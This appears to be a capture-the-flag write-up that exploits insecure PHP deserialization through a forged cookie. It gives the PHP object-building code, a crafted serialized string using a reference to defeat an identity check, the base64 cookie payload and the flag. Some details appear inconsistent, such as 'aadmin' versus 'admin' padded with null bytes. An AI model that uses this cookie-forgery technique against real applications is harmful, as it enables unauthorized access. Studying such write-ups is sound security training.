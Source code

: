 # Lerdof's Records

We can see that we are dealing with a php challenge from the question.
The source code of `index.php` is leaked in `index.phps`

`index.phps` includes a file called `classes.php`, whose source code is also leaked.
Observing both these files and the cookies that are set, which is a base64 encoded serialized string, we realise that this is a `Insecure Deserialization` vulnerability.

We can assume that the cookie that is getting set is getting base_64 decoded and then deserialized later in the server.
We see that there is a `__wakeup()` magic method in `Admin` class. 
```php
function __wakeup(){
    if(strlen($this->name) == 10 &&
    strcmp($this->name, "admin") &&
    $this->secret1 === $this->secret2 &&
    md5($this->secret2->key) == 23) {
    print FLAG;
    }
}
```
When our cookie gets deserialized and it creates an `Admin` object, this `__wakeup` function will be called.

Hence, we can create an `Admin` object, with name: `aadmin\0\0\0\0\0` as `strcmp()` compares only till null byte and `strlen()` counts all the bytes, using a `Validate` class for creating `secret1` and `secret2` like 
```php
class Validate{
  public $key = 'r44TdI0STt';
}

class Admin{
  public $name;
  public $secret1;
  public $secret2;

  function __construct($name, $secret1, $secret2) {
    $this->name = $name;
    $this->secret1 = $secret1;
    $this->secret2 = $secret2;
  
  }

}

print_r(base64_encode(serialize(new Admin("admin\0\0\0\0\0", new Validate, new Validate)))); # use actual null bytes instead of \0
```
But to get past the check that checks if `secret1 === secret2`, we use `R` in the serialized string like 
>`O:5:"Admin":3:{s:4:"name";s:10:"admin\0\0\0\0\0";s:7:"secret1";O:8:"Validate":1:{s:3:"key";s:10:"r44TdI0STt";}s:7:"secret2";R:3;}` 

and then base64_encode this to get
>`Tzo1OiJBZG1pbiI6Mzp7czo0OiJuYW1lIjtzOjEwOiJhZG1pbgAAAAAAIjtzOjc6InNlY3JldDEiO086ODoiVmFsaWRhdGUiOjE6ICAge3M6Mzoia2V5IjtzOjEwOiJyNDRUZEkwU1R0Ijt9czo3OiJzZWNyZXQyIjtSOjM7fQ==`

and put it in the cookie to get the flag,

`p_ctf{t83r35_n07hin6_l1k3_600d_p8p}`
